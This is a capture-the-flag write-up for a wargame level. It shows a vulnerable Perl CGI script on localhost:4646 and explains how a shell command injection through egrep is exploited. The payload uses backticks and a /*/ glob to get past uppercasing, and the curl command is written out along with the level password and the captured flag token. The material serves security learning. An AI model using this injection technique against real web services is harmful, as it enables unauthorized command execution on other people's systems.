 `su level12 -> fa6v5ateaw21peobuub8ipe6s`

We have a perl script again, that is executed by flag12 and runs on port 4646.

```bash
$ cat ./level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

This script takes 2 parameter, x and y:
- x is submitted to 2 transormations, the first to uppercase it, the second one to only keep the fist word (see https://sed.js.org/)
- y is not transformed and just used in the if statement `if($s =~ $nn)`, but doesn't seem exploitable

egrep is like grep but it will interpret the pattern argument.

So we can't pass our `getflag > /tmp/flag` code in x, with `curl localhost:4646/?x="getflag > /tmp/flag"`, as it will become `GETFLAG`.

As `"^$xx"` will get interpreted, we want it to be a script that getflag into a file.

Because we need our script path to match the uppercased x, we replace `/tmp/` with `/*/`, so that it will search our script in all folders and not in `/TMP/`.

```bash
$ echo "getflag > /tmp/flag" > /tmp/XD
$ chmod +x /tmp/XD
$ curl 'localhost:4646?x="`/*/XD`"'
$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

What happens here is that the Perl script will interpret ``egrep "^`/*/XD`" /tmp/test 2>&1``, so it will execute `/tmp/XD`.